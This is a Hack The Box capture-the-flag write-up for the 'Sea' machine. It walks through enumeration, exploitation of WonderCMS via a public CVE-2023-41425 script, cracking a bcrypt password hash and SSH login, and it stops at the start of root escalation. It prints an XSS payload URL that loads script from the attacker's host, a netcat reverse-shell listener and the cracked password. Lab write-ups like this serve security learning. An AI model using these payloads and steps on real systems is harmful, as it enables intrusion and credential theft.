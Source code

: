 ```yaml
---
title: "Sea machine HTB"
date: 1337-01-04 00:00:00 
categories: [Hack The Box,Notes]
tags: [HTB,CTFs,OSCP]
---
```

![alt text](../pics/Sea.png)

# Enumeration
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ nmap -sVC 10.10.11.28 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 05:23 EEST
Nmap scan report for 10.10.11.28
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.73 seconds
```
Okay now we see only ssh and http so lets try to access the website from the browser \
We got this cool looking site 
![alt text](../pics/image-2.png)
if we checked with wappalyzer we will find it was wrote using PHP
![alt text](../pics/image-3.png) \
We also found contact.php page 
![](../pics/image-4.png)
Let's try to dir brute force using gobuster
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ gobuster dir -u http://sea.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/0                    (Status: 200) [Size: 3650]
/themes               (Status: 301) [Size: 230] [--> http://sea.htb/themes/]
/data                 (Status: 301) [Size: 228] [--> http://sea.htb/data/]
/plugins              (Status: 301) [Size: 231] [--> http://sea.htb/plugins/]
/messages             (Status: 301) [Size: 232] [--> http://sea.htb/messages/]
/404                  (Status: 200) [Size: 3341]
```
After checking these pages all of them are forbidden and nothing useful :
![alt text](../pics/image-5.png)
okay let's try to brute force on themes dir 
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ gobuster dir -u http://sea.htb/themes/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/themes/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              aspx,html,txt,asp
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/404                  (Status: 200) [Size: 3341]
/%20                  (Status: 403) [Size: 199]
/%20.asp              (Status: 403) [Size: 199]
/%20.aspx             (Status: 403) [Size: 199]
/%20.html             (Status: 403) [Size: 199]
/%20.txt              (Status: 403) [Size: 199]
/bike                 (Status: 301) [Size: 235] [--> http://sea.htb/themes/bike/]
```
and here we found /bike/ but after checking it, it was also forbidden so lets brute for this path again /bike/ but let's use different tool this time like `feroxbuster` since i just downloaded it and new to it xD
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ feroxbuster --url http://sea.htb/themes/bike/
                                                                                                                                           
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://sea.htb/themes/bike/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       84l      209w     3341c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       20w      199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       20w      239c http://sea.htb/themes/bike/img => http://sea.htb/themes/bike/img/
301      GET        7l       20w      239c http://sea.htb/themes/bike/css => http://sea.htb/themes/bike/css/
200      GET        1l        1w        6c http://sea.htb/themes/bike/version
200      GET       21l      168w     1067c http://sea.htb/themes/bike/LICENSE
200      GET        1l        9w       66c http://sea.htb/themes/bike/summary
[####################] - 4m     90010/90010   0s      found:5       errors:803    
[####################] - 4m     30000/30000   129/s   http://sea.htb/themes/bike/ 
[####################] - 4m     30000/30000   129/s   http://sea.htb/themes/bike/img/ 
[####################] - 4m     30000/30000   130/s   http://sea.htb/themes/bike/css/ 
```
oh we got `/version`,`/summary`,`/license`and `css/`, Let's check them all
![alt text](../pics/image-5%20copy.png)
Lets google really quickly what is 
`turboblack`
![alt text](../pics/image-6.png)
Okay the site is running cms called `wondercms`
Now We can do something like this 
![alt text](../pics/image-7.png)
Keep in mind the version we got is `3.2.0`
Then we found this script 
![alt text](../pics/image-8.png)
Lets git clone it and use it 
```bash
┌──(kareem㉿Kali)-[~/sea/CVE-2023-41425-wonderCMS_RCE]
└─$ python CVE-2023-41425.py -rhost http://sea.htb/loginURL -lhost 10.10.14.18 -lport 4444 -sport 8000
[+] Set up a nc listener: nc -lnvp 4444
[+] Send the xss URL to the victim: 
http://sea.htb/loginURL/index.php?page=loginURL?"></form><script+src="http://10.10.14.18:8000/xss.js"></script><form+action="
[+] Serving at http://10.10.14.18:8000
```
lets send this link the contact form we saw early on at `contact.php`
![alt text](../pics/image-9.png)
then we got this 
![alt text](../pics/image-10.png)
which is mean we got RCE lets mess with the shell we got 
![alt text](../pics/image-11.png)
okay we can read the flag let's try to gather some other informations, Lets check the website files 
```json
www-data@sea:/var/www/sea/data$ cat database.js
cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2025\/06\/17 03:19:58": "127.0.0.1",
            "2024\/07\/31 15:17:10": "127.0.0.1",
            "2024\/07\/31 15:15:10": "127.0.0.1",
            "2024\/07\/31 15:14:10": "127.0.0.1"
        },
        "lastModulesSync": "2025\/06\/17",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
```
we got this password :
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`
this is bcrypt hash lets try to break it using hashcat
![alt text](../pics/image-12.png)
```bash
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Tue Jun 17 06:34:26 2025 (20 secs)
Time.Estimated...: Tue Jun 17 06:34:46 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      171 H/s (5.89ms) @ Accel:12 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3168/14344385 (0.02%)
Rejected.........: 0/3168 (0.00%)
Restore.Point....: 3024/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: iamcool -> heaven1
Hardware.Mon.#1..: Util: 80%

Started: Tue Jun 17 06:34:21 2025
Stopped: Tue Jun 17 06:34:47 2025
```
and we break it now we need to find a user who is using this password to login with his creds
Let's try to login using `geo` as username and try to login using `amay`
```bash
┌──(kareem㉿Kali)-[~/sea/CVE-2023-41425-wonderCMS_RCE]
└─$ ssh amay@sea.htb      
The authenticity of host 'sea.htb (10.10.11.28)' can't be established.
ED25519 key fingerprint is SHA256:xC5wFVdcixOCmr5pOw8Tm4AajGSMT3j5Q4wL6/ZQg7A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sea.htb' (ED25519) to the list of known hosts.
amay@sea.htb's password: 
Last login: Mon Aug  5 07:16:49 2024 from 10.10.14.40
```
we are in babyyy now i think we got the user flag let's try to get root
# root
![alt text](../pics/image-13.png)
okay let's check if there is any open ports or anything interesting in the internal network by checking `netstat` and `ss` 
then we found port 8080 running on the local host so we did port forwarding using ssh command `you can check that on my diaries` then we open it from the browser 
![alt text](../pics/image-14.png)
